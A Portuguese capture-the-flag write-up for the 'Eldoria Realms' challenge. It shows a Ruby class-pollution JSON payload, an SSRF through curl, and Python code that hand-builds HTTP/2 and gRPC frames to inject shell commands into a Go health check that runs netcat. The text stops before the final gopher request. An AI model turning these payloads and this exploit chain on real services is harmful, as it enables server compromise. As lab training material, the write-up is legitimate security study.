

# Eldoria Realms

> A portal that allows players of Eldoria to transport between realms, take on quests, and manage their stats. See if it's possible to break out of the realm to gather more info on Malakar's spells' inner workings.

**Dificuldade:** Média  
**Código-fonte:** Fornecido  
**Técnicas utilizadas:** Class Pollution em Ruby e payload gRPC customizado enviado via protocolo Gopher (SSRF)

Esse foi o segundo desafio que fechei. Sim, pulei os fáceis principalmente porque o  [`cyber attack`](../cyber_attack/writeup-pt.md) me deixou traumatizado. Mas esse aqui também não foi fácil.

Esse desafio tem duas aplicações: uma aplicação web feita em Ruby e um serviço gRPC feito em Go. Logo de cara, encontrei uma BAITA vulnerabilidade no gRPC em Go: uma **command injection** dentro do arquivo `challenge/datastreamapi/app.go`, no método `healthCheck`:
```go
func healthCheck(ip string, port string) error {
	cmd := exec.Command("sh", "-c", "nc -zv "+ip+" "+port)
	output, err := cmd.CombinedOutput()
	if err != nil {
		log.Printf("Health check failed: %v, output: %s", err, output)
		return fmt.Errorf("health check failed: %v", err)
	}

	log.Printf("Health check succeeded: output: %s", output)
	return nil
}
```

Achei que seria `easy`, mas percebi que a configuração do Docker só deixa exposto a porta 1337 (a da aplicação web). Deixando a entender que teríamos um SSRF.

Investigando um pouco mais, encontrei o endpoint `/connect-realm` em `challenge/eldoria_api/app.rb`, que executava o comando `curl`. Zero surpresa, a variável de URL é sanitizada e hardcoded:
```ruby
get "/connect-realm" do
	content_type :json
	if Adventurer.respond_to?(:realm_url)
		realm_url = Adventurer.realm_url
		begin
			uri = URI.parse(realm_url)
			stdout, stderr, status = Open3.capture3("curl", "-w", "%{http_code}", uri)
			puts stderr
			{ status: "HTTP request made", realm_url: realm_url, response_body: stdout }.to_json
		rescue URI::InvalidURIError => e
			{ status: "Invalid URL: #{e.message}", realm_url: realm_url }.to_json
		end
	else
		{ status: "Failed to access realm URL" }.to_json
	end
end
```

Perdi tempo tentando explorar o SSRF. Eu não tinha lido o `app.rb` com atenção e acabei não vendo a parte mais importante do código. E está nessa classe:
```ruby
class Adventurer
	@@realm_url = "http://eldoria-realm.htb"

	attr_accessor :name, :age, :attributes

	def self.realm_url
		@@realm_url
	end

	def initialize(name:, age:, attributes:)
		@name = name
		@age = age
		@attributes = attributes
	end

	def merge_with(additional)
		recursive_merge(self, additional)
	end

	def inspect
		vars = instance_variables.map do |var|
		  value = instance_variable_get(var)
		  "#{var}: #{value.inspect}"
		end.join(", ")
		"#<#{self.class} #{vars}>"
	end

	private

	def recursive_merge(original, additional, current_obj = original)
    additional.each do |key, value|
      if value.is_a?(Hash)
        if current_obj.respond_to?(key)
          next_obj = current_obj.public_send(key)
          recursive_merge(original, value, next_obj)
        else
          new_object = Object.new
          current_obj.instance_variable_set("@#{key}", new_object)
          current_obj.singleton_class.attr_accessor key
        end
      else
        current_obj.instance_variable_set("@#{key}", value)
        current_obj.singleton_class.attr_accessor key
      end
    end
    original
  end
end
```

Yeap, eu sei que você viu, o método `recursive_merge` é vulnerável a **class pollution**, permitindo a manipulação indireta de variáveis de classe, como a `@@realm_url`.

Depois de ler um post sensacional do [Raúl Miján](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html), chamado _"Class Pollution in Ruby: A Deep Dive into Exploiting Recursive Merges"_ (sério, lê isso depois), consegui montar o payload:
```json
{
   "class":{
      "superclass":{
          "realm_url":"any_url_here"
      }
   }
}
```

Ao enviar esse payload via POST para `/merge-fates`, conseguimos atualizar o `@@realm_url` da classe `Adventurer`, explorando o SSRF via o endpoint `/connect-realm`.

Ok, até aqui, eu já tinha praticamente tudo para resolver o desafio:
- **Class Pollution em Ruby**, pra alterar a variável de classe `@@realm_url`.
- **Injeção de Comando** no servidor gRPC.

Agora só faltava um jeito de **explorar essas duas vulnerabilidades** em sequencia.

---
## Construindo HTTP/2 + gRPC + GOPHER://

Depois de incontáveis horas de pesquisa e com a ajuda do meu parceiro Gpeto (vulgo ChatGPT) e seu cérebro brilhante, encontrei a solução: criar manualmente uma requisição HTTP/2 com payload gRPC e enviá-la via protocolo **gopher**.

Mas pra isso funcionar, a gente precisa entender bem a estrutura interna do HTTP/2.
### Estrutura do HTTP/2

O HTTP/2 usa frames binários com um header fixo de 9 bytes seguido por um payload:

| Field             | Size     | Description                             |
| ----------------- | -------- | --------------------------------------- |
| Length            | 3 bytes  | Tamanho do payload (big-endian)         |
| Type              | 1 byte   | Tipo do frame (ex: HEADERS, DATA, etc.) |
| Flags             | 1 byte   | Flags de controle (END_HEADERS, etc.)   |
| Stream Identifier | 4 bytes  | Identificador de stream (começa em 1)   |
| Payload           | Variável | O conteúdo, depende do tipo de frame    |

**Estrutura dos frames:**

1. Antes de dos frames, o cliente deve enviar o **connection preface** em texto claro:  
    `PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n`
2. **Settings Frame**
    - **Type**: `0x04`
    - **Flags**: `0x00
    - **Stream ID**: `0x00000000
    - **Payload**:
        - **Key**: `0x3 = SETTINGS_MAX_CONCURRENT_STREAMS`            
        - **Value**: `100`            
3. **Headers Frame**    
    - **Type**: `0x01`        
    - **Flags**:        
        - `0x04 = END_HEADERS`            
        - `0x05 = END_HEADERS + END_STREAM`            
    - **Stream ID**: `0x00000001`        
    - **Payload**: precisa ser codificado com `HPACK`
        - `':method', 'POST'`            
        - `':scheme', 'http'`            
        - `':path', '/live.LiveDataService/CheckHealth'`            
        - `':authority', 'localhost:50051'`            
        - `'content-type', 'application/grpc'`            
        - `'te', 'trailers'`            
4. **Data Frame**    
    - **Type**: `0x00`        
    - **Flags**: `0x01 = END_STREAM`        
    - **Stream ID**: mesmo do HEADERS, ou seja, `0x00000001`        
    - **Payload**: `<binário do gRPC>`        

> **Obs:** Todo frame HTTP/2 começa com um cabeçalho de 9 bytes. Os **3 primeiros bytes** representam o tamanho do payload (em big-endian).  
> Se o frame não tiver payload, esse valor deve ser zero `00 00 00`.


Com tudo isso montado, os frames devem parece com algo assim:
`<length of data><type><flags><stream ID><payload>`

E a requisição completa enviada ao servidor:
`<preface><SETTINGS frame><HEADERS frame><DATA frame>`

### Estrutura do gRPC

A mensagem gRPC tem a seguinte estrutura:

- **1 byte**: Flag de compressão
    - `0x00` = sem compressão
    - `0x01` = com compressão
- **4 bytes**: Tamanho da mensagem serializada (big-endian)
- **Payload serializado**: a mensagem em si, codificada com Protocol Buffers

**Formato final:**
`<Compression Flag><Message Length><Serialized payload>`

### A Exploração

Agora que temos todas as peças, é hora de montar o `exploit` em Python.

Começamos com o frame **SETTINGS**, onde definimos o `SETTINGS_MAX_CONCURRENT_STREAMS` como 100.  
Não sei por quê, mas segundo a documentação, esse frame pode ser vazio. No entanto, quando tentei, recebi o erro:  
`GET / HTTP/1.1 [Malformed Packet]Continuation`  
Provavelmente porque eu montei o frame errado. Depois que adicionei o `SETTINGS_MAX_CONCURRENT_STREAMS`, tudo funcionou perfeitamente.
```python
def get_settings_frame():
	settings = [
		(0x3, 100)
	]
	settings_payload = b''.join(struct.pack('!HI', k, v) for k, v in settings)
	settings_header = len(settings_payload).to_bytes(3, 'big') + b'\x04\x00' + b'\x00\x00\x00\x00'
	return settings_header + settings_payload
```

Depois criamos o frame **HEADERS**, usando o encoder `hpack` para formatar corretamente os headers:
```python
def get_headers_frame():
	encoder = Encoder()
	headers = [
		(':method', 'POST'),
		(':scheme', 'http'),
		(':path', '/live.LiveDataService/CheckHealth'),
		(':authority', 'localhost:50051'),
		('content-type', 'application/grpc'),
		('te', 'trailers'),
	]
	encoded_headers = encoder.encode(headers)

	headers_header = len(encoded_headers).to_bytes(3, 'big') + b'\x01\x04' + b'\x00\x00\x00\x01'
	return headers_header + encoded_headers
```

Agora, criamos o payload gRPC. Para isso, você precisa usar os stubs gerados a partir do arquivo `.proto`.

> Para gerar os stubs, use o seguinte comando:  
> `python -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. live_data.proto`

O campo `port` é onde vamos injetar o comando:
```python
def get_grpc_frame(ip: str, port: str):
	request = live_data_pb2.HealthCheckRequest(ip=ip, port=port)
	grpc_payload = request.SerializeToString()

	return b'\x00' + len(grpc_payload).to_bytes(4, 'big') + grpc_payload
```

Por fim, juntamos tudo em um payload e escrevemos em um arquivo, ou, se quiser, já gera direto o `gopher://`.  

No meu caso, salvei num arquivo porque o código já estava pronto, por causa de testes anteriores... e eu estava com preguiça de alterar.
```python
grpc_frame = get_grpc_frame("127.0.0.1", ';' + args.cmd)
data_header = len(grpc_frame).to_bytes(3, 'big') + b'\x00\x01' + b'\x00\x00\x00\x01'
data_frame = data_header + grpc_frame

with open("grpc_request.bin", "wb") as f:
	f.write(b"PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n")  # HTTP/2 connection preface
	f.write(get_settings_frame())
	f.write(get_headers_frame())
	f.write(data_frame)
```

Com o payload pronto, só encoda o payload em URL-encode e montar a URL `gopher://` e enviar para o endpoint `/connect-realm` e pegar a flag:



